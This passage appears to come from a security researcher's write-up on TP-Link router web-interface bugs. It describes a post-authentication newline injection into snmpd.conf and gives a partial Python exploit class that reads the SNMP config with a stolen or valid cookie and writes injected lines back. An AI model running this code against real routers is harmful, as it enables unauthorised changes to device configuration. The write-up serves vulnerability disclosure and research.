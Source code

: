 As noted in the comments, you can use it to create `/tmp/RSA.pem` that will persist in some cases.

### New Line Injection with the snmpd

The code to generate the snmpd config in the webui actually let you insert arbitrary lines in the config, as it didn't filter out newlines.
Not much you could do with it, as all the settings that could enable shell commands to be run are disabled.

Was reported along with this bug but I haven't verified if its still around.

Class to trigger the bug given a cookie, modify `payload()` to change it to what you want:
```python3
class TPLinkModifySNMPDConfig:
    """
    This is a post-authentication bug that allows you to add extra lines to the
    snmpd.conf, outside what is normally allowed.

    Sadly, all the fun stuff is disabled (i.e extended), so you'd probably need
    a bug in the config format reader to exploit it to get root.

    https://linux.die.net/man/5/snmpd.conf
    """
    SNMP_URL = 'http://%s/data/snmp.json'

    def __init__(self, host, cookie):
        self.host = host
        self.cookie = cookie
        self.r = requests.Session()
        self.r.cookies.set('COOKIE', self.cookie, domain=host)

    def exploit(self):
        """
        Use a reasonable exploitation method.
        """
        config = self.get_config()
        print("[!] Got SNMPD config, patching it")
        new_config = copy.deepcopy(config)
        new_config['snmpEnable'] = 'true'
        new_config['sysContact'] = \
            config['sysContact'].split('\n')[0] + self.payload()
        self.store_config(new_config)
        print("[!] Patched SNMPD config uploaded")

    def get_config(self):
        """
        Dump the original config, so it can be preserved.
        """
        r = self.r.post(
            self.SNMP_URL % self.host,
            data={
                'operation': 'read'
            },
            headers={
                'Referer': 'http://%s/' % self.host,
            }
        )
        return r.json()['data']

    def store_config(self, config):
        """
        Changes the configuration for the SNMPD
        """
        cmd = {'operation': 'write'}

```
